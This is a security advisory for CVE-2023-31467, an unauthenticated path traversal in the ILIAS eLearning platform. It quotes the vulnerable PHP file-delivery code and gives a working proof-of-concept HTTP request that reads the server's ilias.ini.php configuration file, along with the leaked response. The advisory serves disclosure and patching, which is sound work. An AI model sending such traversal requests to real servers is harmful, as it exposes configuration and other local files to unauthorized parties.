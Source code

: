 ```yaml
---
layout: post_collection_entry
date:   2023-02-02
categories: [advisory]
advisory_collection: ilias_multi_2023

title:  "[Advisory - ILIAS eLearning platform] Unauthenticated access to local files via path traversal"
advisory:  
  product: ILIAS eLearning platform
  homepage: https://www.ilias.de/en/about-ilias/  
  found: 2023-02-02 
  vulnerable_version: "<= 7.20, <= 8.1"
  fixed_version: "7.21, 8.2"
  cve: CVE-2023-31467
  impact_text: High
  impact_score: 7.5
  cvss: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
---
```


# Vulnerability overview
The file `ILIAS-7.20/Services/WebAccessChecker/web_access_checker.php` can be used to access local files and get the content of them. As there is no check if the requested file is in a specific directory, any file on the servers filesystem can be accessed.

To initialize the `Delivery` object (`ILIAS-7.20/Services/FileDelivery/classes/Delivery.php`) the value after the script name is used.

```php
# FILE: ILIAS-7.20/Services/WebAccessChecker/classes/class.ilWebAccessCheckerDelivery.php
protected function deliver()
{
    if (!$this->ilWebAccessChecker->isChecked()) {
        throw new ilWACException(ilWACException::ACCESS_WITHOUT_CHECK);
    }

    $ilFileDelivery = new Delivery($this->ilWebAccessChecker->getPathObject()->getCleanURLdecodedPath(), $this->http);
    $ilFileDelivery->setCache(true);
    $ilFileDelivery->setDisposition($this->ilWebAccessChecker->getDisposition());
    if ($this->ilWebAccessChecker->getPathObject()->isStreamable()) { // fixed 0016468
        $ilFileDelivery->stream();
    } else {
        $ilFileDelivery->deliver();
    }
}
```

For example the URL `http://ilias.local:9080/Services/WebAccessChecker/web_access_checker.php/data/myilias/./../../ilias.ini.php` uses `./data/myilias/./../../ilias.ini.php` as the parameter value for the `Delivery` object constructor.


## Proof of Concept
The following request gets the content of the file `ilias.ini.php` file.

```http
GET /Services/WebAccessChecker/web_access_checker.php/data/myilias/./../../ilias.ini.php HTTP/1.1
Host: ilias.local
Cookie: ilClientId=myilias;
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/font-woff2;q=1.0,application/font-woff;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Sec-Fetch-Dest: font
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close


```

The response to this request contains the content of the file.

```http
HTTP/1.1 200 OK
Date: Wed, 26 Apr 2023 04:27:56 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Set-Cookie: ilClientId=myilias; Path=/
Expires: Mon, 1 May 2023 04:27:56 GMT
Cache-Control: must-revalidate, post-check=0, pre-check=0
Pragma: public
X-ILIAS-FileDelivery-Method: php
ETag: 3a5c2de0b2c55f2d7fdc8de51eaf4854
Last-Modified: Wed, 26 Apr 2023 04:19:02 GMT
Content-Disposition: inline; filename="ilias.ini.php"
Content-Description: ilias.ini.php
Accept-Ranges: bytes
Content-Length: 1285
Connection: close
Content-Type: application/x-wine-extension-ini

; <?php exit; ?>
[server]
http_path = "http://ilias.local"
absolute_path = "/var/www/html"
presetting = ""
timezone = "UTC"

[clients]
path = "data"
inifile = "client.ini.php"
datadir = "/var/www/files"
default = "myilias"
list = "0"

[setup]
pass = ""

[tools]
......
```